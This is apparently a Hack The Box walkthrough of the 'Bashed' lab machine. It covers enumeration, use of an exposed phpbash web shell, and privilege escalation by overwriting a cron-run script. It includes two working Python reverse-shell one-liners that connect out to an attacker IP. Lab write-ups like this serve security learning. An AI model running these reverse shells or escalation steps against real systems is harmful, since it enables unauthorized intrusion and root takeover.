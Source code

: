 ```yaml
---
title: "Bashed [HTB Walkthrough]"
date: 2022-04-27T19:08:29+08:00
draft: false
tags: ["HTB", "Easy"]
---
```


---

### Knowledge Gained 🙉
- su 


---

## Enumeration

First, we start off with a `rustscan `scan, seems that this box only have one open port which is port `80`.

```
rustscan -a 10.10.10.68
```

![](../../img/bash1.png)

I then move to the website and nothing much was on the website.

![](../../img/bash2.png)

Then, I run `gobuster` to search for sub-directories under this server. The results returns a few interesting results: `/php` , `/dev` , `/uploads`

![](../../img/bash3.png)

---

## Foothold

Both `/php` and `/uploads` have nothing inside, so I move on to `/dev`. Under this there is a php file called `phpbash.php`, and it appears to be a terminal. I can access the terminal using the `www-data` user and the user flag is just there for us.

![](../../img/bash4.png)

Before I proceed, I upgraded the shell to have more control of the machine. The shell I used is from [PentestMonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.13",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
![](../../img/bash5.png)

---

## Priv Esc

After moving around the terminal, I run `sudo -l` to see what privileges we have. Seems like the `www-data` user can run commands as `scriptmanager` user. 

```
sudo -u scriptmanager /bin/bash
```

![](../../img/bash6.png)

![](../../img/bash7.png)

After poking around, I noticed that there is a folder under the root directory named `scripts` that is owned by the **scriptmanager** user.


![](../../img/bash8.png)

Under that folder there is a **script** and a **text** file. Seems like the script is opening and writing to the file. Noticing the creation time of the text file, I know that there must be some **cron** running the script in the background automatically every minute.

![](../../img/bash9.png)

So next all we have to do is replace the script with a reverse shell and we are root!

```
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.13\",9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > test.py
```

![](../../img/bash10.png)

Thats all for this box, thanks for reading!






